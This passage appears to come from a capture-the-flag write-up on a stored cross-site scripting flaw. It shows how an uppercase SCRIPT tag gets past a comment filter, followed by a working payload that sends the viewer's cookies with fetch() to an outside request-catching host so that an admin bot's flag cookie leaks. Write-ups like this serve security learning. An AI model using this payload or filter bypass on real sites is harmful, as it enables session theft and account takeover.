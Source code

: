    ![](images/image-20210808010310927.png)

3. However, the filter in place is not effective enough and thus appends variations of the `script` tag, such as `SCRIPT`, as raw HTML.

   ```html
   <SCRIPT>alert(1)</SCRIPT>
   ```

   ![](images/image-20210808010627363.png)

4. As a proof of concept, we can leak the `flag` cookie to a server controlled by an attacker by uploading an XSS payload to steal cookies from viewers of the comment. We can then report the page containing the XSS payload to the automated administration system and leak sensitive information from admins.

   ```html
   <SCRIPT>fetch(`https://enxwgp951veoi.x.pipedream.net?cookie=${document.cookie}`)</SCRIPT>
   ```
